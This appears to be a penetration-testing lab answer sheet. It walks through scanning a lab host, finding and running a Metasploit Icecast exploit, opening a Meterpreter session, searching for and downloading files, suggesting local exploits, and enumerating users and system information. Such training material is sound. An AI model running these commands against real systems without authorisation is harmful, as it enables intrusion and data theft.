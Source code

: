 # Penetration Test Engagement
1. Perform a service and version scan using Nmap to determine which services are up and running:
-  Run the Nmap command that performs a service and version scan against the target.
* Answer: `nmap -sV 192.168.0.20`

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
- Run the SearchSploit commands to show available Icecast exploits.
* Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
Run the command that starts Metasploit:
Answer: `msfconsole`

4. Search for the Icecast module and load it for use.
Run the command to search for the Icecast module:
Answer:`search icecast`
Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.
Answer: `use 0`

5. Set the RHOST to the target machine.
- Run the command that sets the RHOST:
- Answer: `set RHOST 192.168.0.20`

6. Run the Icecast exploit.
Run the command that runs the Icecast exploit.
Answer: `run`
Run the command that performs a search for the secretfile.txt on the target.
Answer: `search -f *secretfile*.txt`

7. You should now have a Meterpreter session open.
Run the command to performs a search for the recipe.txt on the target:
Answer:`search -f *recipe*.txt`
Bonus: Run the command that exfiltrates the recipe*.txt file:
Answer: `download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'`


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
Command to find local exploits
Answer: `run post/multi/recon/local_exploit_suggester`
Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: `run post/windows/gather/enum_logged_on_users`

B. Open a Meterpreter shell and gather system information for the target.

Answer: `shell`

C. Run the command that displays the target's computer system information:

Answer: `systeminfo`
